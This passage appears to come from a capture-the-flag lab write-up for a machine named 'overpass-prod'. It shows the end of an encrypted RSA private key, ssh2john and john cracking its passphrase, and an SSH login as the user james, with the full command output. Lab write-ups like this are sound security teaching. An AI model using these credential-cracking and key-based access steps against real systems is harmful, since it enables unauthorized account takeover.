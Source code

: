 ```
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
```
- Next using `ssh2john.py`, to create a hash of the encrypted key.
```
$ /usr/share/john/ssh2john.py rsa_key > hash_key
```
- Let's now use `john` to crack the hash.
```
$ john hash_key                                             
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
james13          (rsa_key)     
1g 0:00:00:02 DONE 3/3 (2023-12-06 19:32) 0.4132g/s 585384p/s 585384c/s 585384C/s jamest1..james24
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
- Let's give the `rsa_key` file elevated permissions.
```
$ sudo chmod 700 rsa_key
```
- We can now login as `james` using the `rsa_key`.
```
$ ssh -i rsa_key james@10.10.114.146
Enter passphrase for key 'rsa_key': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Dec  6 14:06:09 UTC 2023

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.114.146
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ 
```
- We have to first check the contents in the directory.
```
james@overpass-prod:~$ ls
```